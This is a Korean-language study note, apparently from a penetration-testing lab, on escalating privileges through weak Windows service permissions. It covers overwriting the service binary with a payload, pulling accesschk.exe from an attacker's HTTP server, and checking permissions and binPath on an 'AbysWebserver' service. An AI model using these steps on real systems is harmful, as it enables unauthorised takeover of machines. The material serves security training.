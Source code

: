 - **공격 방식:**
  - 서비스의 특성을 변경해 공격자의 페이로드 경로로 바꿀 수 있음
  - 서비스 바이너리 파일 자체를 덮어씌어 공격자의 페이로드를 실행할 수 있음


#### ✅ 서비스 권한 취약점 공격 2가지 유형

1. **서비스 특성 수정 권한**
- binPath의 파일 경로를 수정하여 페이로드 경로로 지정

2. **서비스 바이너리 파일 쓰기 권한 이용**
- 원래 존재하는 파일 위에 페이로드 덮어쓰기
  ```powershell
  cp --force <페이로드> <서비스파일>
  ```
- `<페이로드>`: 공격자가 실행시키고자 하는 파일
- `<서비스파일>`: 기존 서비스 실행 파일 경로


**⚠️실무 주의사항**
- 실무에서는 사용 금지
  - 고객 사전 허락 필수
  - 백업 필수



#### 🧪 잘못된 서비스 권한을 이용한 권한 상승 시나리오

Step 1. 서비스 권한 정보 수집
- 희생자에 accesschk.exe가 없다면,
- **공격자(Kali)에서 다운로드**
  ```
  wget https://download.sysinternals.com/files/SysinternalsSuite.zip
  unzip SysinternalsSuite.zip
  python3 -m http.server 80
  ```
- **희생자에서 다운로드**
  ```
  wget http://<공격자IP>:80/accesschk.exe -OutFile accesschk.exe
  ```

- **권한 정보 확인**
  ```powershell
  accesschk.exe -accepteula -ucqv redraccoon AbysWebserver
  ```
  - **예시 결과**
  ```
  RW  AbysWebserver
  SERVICE_ALL_ACCESS
  ```
  → `redraccoon` 유저는 AbysWebserver 서비스에 대해 모든 작업을 실행할 수 있음
- `accesschk.exe`: Sysinternals에서 제공하는 권한 확인 도구
- `-ucqv`: 사용자, 서비스, 권한 등 상세 정보 출력

Step 2. AbysWebserver 서비스 binPath 확인
```powershell
sc.exe qc AbysWebserver
```
- **예시 결과**
  ```
  BINARY_PATH_NAME : C:\opt\Abyss Web Server\abyssws
  ```
  → AbysWebserver 서비스는 `C:\opt\Abyss Web Server\abyssws` 바이너리를 실행하는 것을 확인됨
  현재 유저(redraccoon)은 AbysWebserver 서비스에 대해 모든 작업을 실행할 수 있기 때문에 경로를 바꿀 수 있음
